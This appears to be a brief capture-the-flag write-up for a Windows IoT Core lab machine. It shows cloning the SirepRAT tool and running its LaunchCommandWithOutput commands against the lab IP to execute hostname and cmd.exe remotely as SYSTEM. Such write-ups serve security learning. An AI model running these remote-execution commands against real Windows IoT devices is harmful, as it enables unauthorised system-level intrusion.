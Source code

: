 <img src="/img/omni/CTF-Writeups/login.PNG" alt="Getting-gz" width="800" height="440">

* I noticed in login request "windows Device portal" search about it
* Windows Device Portal is a web server on your device that you can connect to from a web browser on a PC. If your device has a web browser, you can also connect locally with the browser on that device. It works like an IoT.
* I found tool SirepRAT download it and install
* led to RCE as SYSTEM on Windows IoT Core
* `git clone https://github.com/SafeBreach-Labs/SirepRAT`
* `sudo pip3 install -r requirements.txt `

<img src="/img/omni/save1.PNG" alt="Getting-gz" width="800" height="440">
  
  * run command on system hostname 
  * `sudo python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\hostname.exe" --return_output --v`      
  
<img src="/img/omni/hostname.PNG" alt="Getting-gz" width="800" height="300">

 * open cmd on remote machine
 * cmd /c is used to run commands in MS-DOS and terminate after command
 *` sudo python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c hostname " --return_output --v`
   
<img src="/img/omni/cmd.PNG" alt="Getting-gz" width="800" height="300">
  